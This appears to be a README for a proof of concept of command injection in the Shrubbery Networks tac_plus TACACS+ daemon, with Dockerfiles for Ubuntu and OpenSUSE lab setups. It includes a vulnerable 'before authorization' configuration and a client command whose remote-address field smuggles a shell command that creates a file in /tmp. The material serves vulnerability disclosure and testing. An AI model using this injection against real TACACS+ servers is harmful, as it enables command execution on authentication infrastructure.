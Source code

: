 # Shrubbery Networks tac_plus

## Setup

```bash
# compile daemon with debug symbols
wget https://shrubbery.net/pub/tac_plus/tacacs-F4.0.4.28.tar.gz
tar xzf tacacs-F4.0.4.28.tar.gz
cd tacacs-F4.0.4.28
CFLAGS="-g3 -O0" ./configure
make
# run the daemon
./tac_plus \
    -G \
    -d 5 \
    -l /dev/stdout \
    -p 4949 \
    -C tac_plus.cfg
```

## Examples

This section includes examples of Linux distributions that use the Shrubbery Networks fork.

### Ubuntu Bionic

- tacacs+ package in Ubuntu Bionic
- Upstream: Shrubbery (https://www.shrubbery.net/tac_plus/)

```Dockerfile
FROM ubuntu:bionic
WORKDIR /tmp
RUN apt update -y && apt install -y tacacs+
SHELL ["/bin/bash", "-c"]
RUN echo $'accounting file = /tmp/tac_acc.log\n \
user=DEFAULT {\n \
 before authorization "/bin/false -- \'$user\' \'$name\' \'$address\'"\n \
  service = exec {\n \
    default attribute = permit\n \
  }\n \
}' > /tmp/tac_plus.cfg
CMD ["/usr/sbin/tac_plus", "-G", "-d", "5", "-l", "/dev/stdout", "-p", "4949", "-C", "tac_plus.cfg"]

# docker build -t tac_plus_ubuntu -f Dockerfile.ubuntu .
# docker run --rm -p 4949:4949 --name tac_plus_ubuntu tac_plus_ubuntu

# tacacs_client --host 127.0.0.1 --port 4949 --username DEFAULT --rem-addr "asd';touch /tmp/tacpluspoc123 #" authorize -c service=exec
# docker exec tac_plus_ubuntu ls -la /tmp
```

### OpenSUSE Leap

- tac_plus package in the network repository
- Upstream: Shrubbery (https://www.shrubbery.net/tac_plus/)

```Dockerfile
FROM opensuse/leap
RUN zypper ref && \
    zypper ar https://download.opensuse.org/repositories/network/15.4/ network && \
    zypper --gpg-auto-import-keys refresh && \
    zypper --non-interactive dist-upgrade --allow-vendor-change --from network && \
    zypper update -y
RUN zypper install -y tac_plus || true
WORKDIR /tmp
SHELL ["/bin/bash", "-c"]
RUN echo $'accounting file = /tmp/tac_acc.log\n \
user=DEFAULT {\n \
 before authorization "/bin/false -- \'$user\' \'$name\' \'$address\'"\n \
  service = exec {\n \
    default attribute = permit\n \
  }\n \
}' > /tmp/tac_plus.cfg
CMD ["/usr/sbin/tac_plus", "-G", "-d", "5", "-l", "/dev/stdout", "-p", "4949", "-C", "tac_plus.cfg"]

# docker build -t tac_plus_opensuse -f Dockerfile.opensuse .
# docker run --rm -p 4949:4949 --name tac_plus_opensuse tac_plus

# tacacs_client --host 127.0.0.1 --port 4949 --username DEFAULT --rem-addr "asd';touch /tmp/tacpluspoc123 #" authorize -c service=exec
# docker exec tac_plus_opensuse ls -la /tmp
```